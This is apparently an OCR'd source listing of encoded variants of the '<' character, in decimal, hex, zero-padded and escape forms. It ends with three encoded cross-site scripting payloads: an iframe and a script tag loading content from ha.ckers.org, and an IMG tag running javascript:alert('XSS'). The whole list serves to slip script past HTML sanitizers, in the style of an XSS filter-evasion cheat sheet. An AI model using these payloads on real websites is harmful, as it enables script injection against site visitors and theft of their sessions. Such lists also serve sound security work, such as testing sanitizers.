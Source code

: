       &LT
      &LT;
      &#60
      &#060
      &#0060
      &#00060
      &#000060
      &#0000060
      &lt;
      &#x3c
      &#x03c
      &#x003c
      &#x0003c
      &#x00003c
      &#x000003c
      &#x3c;
      &#x03c;
      &#x003c;
      &#x0003c;
      &#x00003c;
      &#x000003c;
      &#X3c
      &#X03c
      &#X003c
      &#X0003c
      &#X00003c
      &#X000003c
      &#X3c;
      &#X03c;
      &#X003c;
      &#X0003c;
      &#X00003c;
      &#X000003c;
      &#x3C
      &#x03C
      &#x003C
      &#x0003C
      &#x00003C
      &#x000003C
      &#x3C;
      &#x03C;
      &#x003C;
      &#x0003C;
      &#x00003C;
      &#x000003C;
      &#X3C
      &#X03C
      &#X003C
      &#X0003C
      &#X00003C
      &#X000003C
      &#X3C;
      &#X03C;
      &#X003C;
      &#X0003C;
      &#X00003C;
      &#X000003C;
      \x3c
      \x3C
      \u003c
      \u003C
      &lt;iframe src=http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html&gt;
      &lt;IMG SRC=\"javascript&#058;alert('XSS')\"
      &lt;SCRIPT SRC=//ha&#46;ckers&#46;org/&#46;js&gt;